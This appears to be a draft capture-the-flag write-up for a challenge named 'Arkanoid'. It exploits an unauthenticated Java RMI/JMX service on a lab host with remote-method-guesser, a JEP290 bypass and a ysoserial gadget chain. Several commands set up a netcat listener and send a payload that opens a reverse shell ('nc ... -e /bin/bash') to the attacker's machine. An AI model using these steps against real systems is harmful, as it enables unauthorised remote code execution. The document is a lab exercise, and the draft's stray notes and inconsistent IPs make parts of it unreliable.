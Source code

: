 ## Arkanoid

Points: 5

We're given a server to check for vulnerabilities. 

Nmap scan `nmap -sV -T4 -A arkanoid.cns-jv.tcc -p1-65535` shows 8000, 60001, 60002 ports open:
```
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.019s latency).
rDNS record for 10.99.0.102: localhost
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
|_http-title: Gamedev Canvas Workshop - lesson 10: finishing up
36809/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer, 
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
60002/tcp open  java-rmi   Java RMI

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.91 seconds
```

There's the game itself on port 8000 which isn't very interesting and unauthenticated JMX RMI on ports 60001 (register) and 60002 (TODO)

I tried several tools for scanning/attackng JMX RMI with the best results from https://github.com/qtc-de/remote-method-guesser which also conveniently comes with a Docker image (`docker pull ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0`).

So first I enumerated the 60001 registry endpoint with `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 enum 10.99.0.102 60001` which showed a JEP290 bypass enumeration vulnerability.


![alt text](img/rmg_enum.png)

TODO theory: JEP 290 was a security fix for JVM which removed the possibility to directly attack RMI using a deserialization attack by filtering. But the fix can still be bypassed by creating a "reverse" channel - creating a client on target server which would open an unfiltered channel outside which then can be used to attack


here the 10.99.0.28 is IP of my machine on the VPN:
1 - reverse shell listener: `nc -vlp 7002`
2 - RMI listener: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 listen 0.0.0.0 7001 CommonsCollection6 'nc 10.200.0.28 7002 -e /bin/bash'`
3 - attack: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --component reg`

=================================================================================================================================================================
old:
...
JEP290 bypass  
An Trinh gadget
Vulnerable

JEP290 provided filtering in order to defend against JMX RMI deserialization attack so a direct attack against the endpoint won't work.
Instead the defense can be bypassed by creating a separate listener without filtering and using that vector to attack:









I had to use java 11
(I used rmg from release and ysoserial-all.jar from https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) 

Order:
My IP in VPN: 10.200.0.28



1) listen for reverse shell: `nc -vlp 7002`
2) listen RMI ???: `java -jar ./rmg-4.4.1-... listen 10.200.0.28 7001 CommonsCollections6 'nc 10.200.0.28 7002 -e /bin/bash' --yso ./ysoserial-all.jar`
3) serial attack `java -jar ./rmg-4.4.1-... serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --yso ./ysoserial-all.jar`

Now that the netcat captured shell, I spent some time looking around for the flag but in the end it was env var of the running process
`env` -> flag



 not needed: #I had to add 10.99.0.102 localhost to /etc/hosts
TODO - bridged Docker?

